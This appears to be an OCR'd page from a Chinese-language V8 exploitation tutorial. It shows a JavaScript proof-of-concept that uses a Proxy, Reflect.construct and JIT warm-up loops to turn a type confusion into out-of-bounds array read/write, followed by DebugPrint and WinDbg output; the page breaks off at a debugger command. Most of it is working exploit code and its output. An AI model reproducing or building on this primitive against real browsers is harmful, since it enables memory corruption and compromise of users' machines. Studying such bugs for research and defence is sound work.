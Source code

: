 ```
// 从类型混淆到越界读写

let vuln_array = [,,,,,, 6.1, 7.1, 8.1];    // 创建时的类型是HOLEY_DOUBLE_ELEMENTS
%DebugPrint(vuln_array);
%SystemBreak();
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

function empty() {}
function f(p) {
    // 1.04325801067016648100135995212E-309 == 0x0001801800000000
    vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 1.04325801067016648100135995212E-309*2);
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    %DebugPrint(vuln_array);
    %SystemBreak();
}

let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {}; // 修改之后的类型是HOLEY_ELEMENTS
        return Object.prototype;
    }
});

function main(p) {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    f(p);
}

function confusion_to_oob() {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT

    main(empty);
    main(empty);

    main(p);
}

confusion_to_oob();


```

最开始我们创建的是`Double`数组

```
DebugPrint: 0000028408085F79: [JSArray]
 - map: 0x0284082418b9 <Map(HOLEY_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x028408208dcd <JSArray[0]>
 - elements: 0x028408085f29 <FixedDoubleArray[9]> [HOLEY_DOUBLE_ELEMENTS]
 - length: 9
 - properties: 0x0284080406e9 <FixedArray[0]> {
    #length: 0x028408180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x028408085f29 <FixedDoubleArray[9]> {
         0-5: <the_hole>
           6: 6.1
           7: 7.1
           8: 8.1
 }

0:000> dd 0x028408085f29-1 L2
```